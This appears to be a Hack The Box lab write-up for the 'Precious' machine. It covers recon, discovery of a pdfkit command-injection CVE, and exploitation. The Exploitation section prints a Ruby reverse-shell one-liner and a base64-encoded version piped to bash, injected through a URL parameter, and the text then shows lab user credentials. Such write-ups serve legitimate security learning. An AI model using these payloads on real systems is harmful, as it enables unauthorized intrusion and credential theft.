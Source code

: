 ```yaml
---
title: Precious
tags:
  - HackTheBox
  - Easy
  - Linux
  - pdfkit
  - Metadata_Extraction
  - Command-Injection
date: 2024-12-24T00:00:00Z
---
```

![](Pasted%20image%2020241224162711.png)

## Reconnaissance

First, I added the new host to my known ones:

```shell
sudo echo "10.10.11.189 precious.htb" | sudo tee -a /etc/hosts
```

Then, I performed a Nmap scan:

```shell
nmap -sC -T4 -p- precious.htb > sC.txt

[redacted]
PORT   STATE SERVICE
22/tcp open  ssh
| ssh-hostkey: 
|   3072 84:5e:13:a8:e3:1e:20:66:1d:23:55:50:f6:30:47:d2 (RSA)
|   256 a2:ef:7b:96:65:ce:41:61:c4:67:ee:4e:96:c7:c8:92 (ECDSA)
|_  256 33:05:3d:cd:7a:b7:98:45:82:39:e7:ae:3c:91:a6:58 (ED25519)
80/tcp open  http
|_http-title: Convert Web Page to PDF
```

So I checked its website:

![](Pasted%20image%2020241224162950.png)

I tried some websites, but the page never generates a pdf. So I decided to inspect source code and further. If we inspect the network traffic we know that the server is running a Ruby app with Phusion Passenger (nginx).

If we set up a local python server and input it in the page bar, it asks us to save a generated pdf:

```shell
python3 -m http.server 8090 
```

![](Pasted%20image%2020241224164209.png)

If we save the pdf and inspect it we can see the previous Nmap scan:

![](Pasted%20image%2020241224164319.png)

I'll try to find some metadata related to the tool that creates this kind of pdfs using [Exiftool 🐧](/notes/tools/Exiftool.md):

```shell
exiftool qo9uv9nxkcwjtu8osa23ul70022yts1j.pdf

[redacted]
Creator                         : Generated by pdfkit v0.8.6
```

So it seems to be using pdfkit v0.8.6.

## Weaponization

I searched for "*pdfkit v0.8.6 cve*" and got [CVE-2022-25765](https://security.snyk.io/vuln/SNYK-RUBY-PDFKIT-2869795).

An application could be vulnerable if it tries to render a URL that contains query string parameters with user input:

```ruby
PDFKit.new("http://example.com/?name=#{params[:name]}").to_pdf
```

If the provided parameter happens to contain a URL encoded character and a shell command substitution string, it will be included in the command that PDFKit executes to render the PDF:

```ruby
irb(main):060:0> puts PDFKit.new("http://example.com/?name=#{'%20`sleep 5`'}").command
wkhtmltopdf --quiet [...] "http://example.com/?name=%20`sleep 5`" -
=> nil
```

Calling `to_pdf` on the instance shows that the `sleep` command is indeed executing:

```
PDFKit.new("http://example.com/?name=#{'%20`sleep 5`'}").to_pdf
# 5 seconds wait...
```

Of course, if the user can control completely the first argument of the PDFKit constructor, they can also exploit the command injection as long as it starts with "http":

```
PDFKit.new("http%20`sleep 5`").to_pdf
```

## Exploitation

I'll craft my exploit with my python server ip and the linux command I want:

```shell
http://10.10.14.28:8090/?name=%20`id`
```

![](Pasted%20image%2020241224170216.png)

We can observe the output of the command id :D

So now we can craft a reverse shell command to gain remote access:

```shell
ruby -rsocket -e'spawn("sh",[:in,:out,:err]=>TCPSocket.new("10.10.14.28",666))'
```

I tried this ruby shell, but it always closes the connection, so I'll try to base64 encode it and then decode it and execute it:

```shell
http://10.10.14.28:8090/?name=%20`echo cnVieSAtcnNvY2tldCAtZSdzcGF3bigic2giLFs6aW4sOm91dCw6ZXJyXT0+VENQU29ja2V0Lm5ldygiMTAuMTAuMTQuMjgiLDY2NikpJw== | base64 -d | bash`
```

> Got a reverse shell :D

![](Pasted%20image%2020241224171354.png)

## Lateral Movement

Once I stabilised the shell, I inspected the machine and `ruby`'s home directory:

![](Pasted%20image%2020241224171739.png)

So I found `henry`'s credentials inside `/home/ruby/.bundle/config`

> `henry:Q3c1AqGHtoI0aXAYFH`

> Got user flag :D

![](Pasted%20image%2020241224171906.png)

## Privilege Escalation

==I'll do it later :3==